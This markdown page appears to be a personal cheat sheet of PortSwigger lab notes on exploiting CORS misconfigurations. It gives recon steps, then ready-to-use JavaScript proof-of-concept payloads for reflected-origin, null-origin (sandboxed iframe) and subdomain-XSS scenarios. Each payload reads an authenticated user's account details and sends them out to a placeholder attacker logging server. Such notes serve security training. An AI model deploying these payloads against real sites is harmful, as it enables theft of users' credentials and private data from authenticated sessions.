 # Cross-origin Resource Sharing (CORS)

## Summary

* [General Recon For CORS Vulnerabilities](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

<br>

## Resources

* https://portswigger.net/web-security/cors
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing

<br>

## Recon

### Identify CORS Misconfigurations

* Analyze all the application’s responses to see if any explicitly support CORS
   * Access-Control-Allow-Origin: https://malicious-website.com 

* Identify what Origins are allowed to submit CORS requests to the application, submit the following header in the requests:
    * Origin: *some-value*

* Test for CORS vulnerability with trusted null origin by adding Origin: null to a request

* Identify if any of those requests can be used to send CORS request with credentials:
    * Access-Control-Allow-Credentials: true

* The examples from the labs can help create exploits to take advantage of these misconfigurations

<br>

---
---

<br>

## Cheat Sheet

### Basic Origin Reflection

* The application is allowing any Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: attacker.com
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  Now the attacker needs to trick the victim user into visiting their website, while they’re authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

New version PoC
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
Old version
```html
<html>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
    };
</script>
</html>
```

<br><br>

### Trusted Null Origin

* The application is only allowing the “null” Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  
* The malicious code will be within an \<iframe\> that will cause the browser to set the Origin header to “null”.  The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

<br><br>

### Subdomain Origin Allowed

* The application is only allowing subdomains to send cross-origin requests and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: subdomain.vulnerable-app.com
```

* If the subdomain contains a XSS vulnerability, we can inject a script that will submit a request to the main application and send the response to the attacker’s server.  This will work since the subdomain is allowed to view the authenticated responses from the main application.  
* When the XSS script executes, the Origin header's value will be **subdomain.vulnerable-app.com**  (reason why is because the xss script is essentially a part of the application now).  This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

    * Make sure to encode the angle brackets <> in the payload within the *document.location* to prevent breaking the payload.  This payload is the exact same as the [Basic Origin Reflection](#basic-origin-reflection), except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

* Decoded Version:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```

<br><br>

### Pending to complete labs that are missing from cheat sheet:

* LAB EXPERT CORS vulnerability with internal network pivot attack
